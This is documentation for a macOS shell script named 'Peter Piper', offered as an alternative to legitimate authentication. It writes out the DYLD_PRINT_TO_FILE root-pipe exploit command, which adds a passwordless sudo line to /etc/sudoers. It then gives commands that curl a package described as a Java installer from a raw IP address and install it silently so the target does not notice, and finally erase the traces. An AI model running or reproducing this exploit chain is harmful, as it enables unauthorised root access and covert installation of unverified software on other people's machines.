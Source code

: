 # Peter Piper Documentation #

__1. INTRODUCTION__
<br>
This script was made as an alternative to legitimate authentication in Applescript. This script uses a method of exploitation in OS X called root piping.

<br>

__2. EXPLOIT__
<br>
This exploit uses a vulnerability that was properly fixed in OS X 10.10.5. It’s reference information is [here](https://www.sektioneins.de/en/blog/15-07-07-dyld_print_to_file_lpe.html).
This exploit gives whatever user that executes it admin instantly.

<br>

__3. INSTALL__
<br>
We use `cURL` to get the Java 8 Update 60 package (.tar archive) onto the target computer and into a temporary directory, decompress it, and then use the `installer` command featured in the OS X command line to install the .pkg we fetched. This is the correct command for this particular task because it skips the graphical installer meaning it can run behind the scenes without target knowledge.

<br>

__4. CLEANUP__
<br>
We first remove the temporary directory used to store the Java package during install, then we use the command `sed` to remove the target from the sudoers list.

<br>

__5. `function KeepSafe { }` & `trap`__
<br>
This is used to ensure the completion of the command if it fails.

<br>

<br>

## IN-DEPTH LOOK AT `function KeepSafe { }` COMMANDS ##

`echo 'echo "$(whoami) ALL=(ALL) NOPASSWD:ALL" >&3' | DYLD_PRINT_TO_FILE=/etc/sudoers newgrp;` ___- Exploit the machine___
<br>
`sudo bash -c ` ___- Create a root bash shell___
<br>
`if [[ $EUID -ne 0 ]]; then echo -e "\033[1mFailed! No root!\033[0m $(exit 1)";` ___- Check if the exploit actually worked, if not, exit the script___
<br>
`sudo mkdir -v /tmp$$;` ___- Make a temporary directory to store the package in___
<br>
`sudo curl -# http://24.96.42.83/ownCloud/index.php/s/MipN60plXKZ21vg/download > /tmp$$/Java8Update60.pkg.tar;` ___- Get the package (.tar archive)___
<br>
`tar -xfv /tmp$$/Java8Update60.pkg.tar;` ___- Unpack the .tar archive___
<br>
`sudo installer -verbose -pkg /tmp$$/Java8Update60.pkg -target LocalSystem;` - ___Install the package___
<br>
`sudo sed -i "" "/NOPASSWD:ALL/d" /etc/sudoers;` ___- Remove the line allowing root access without a password___
<br>
`rm -rfv /tmp$$;` ___- Remove the temporary directory___
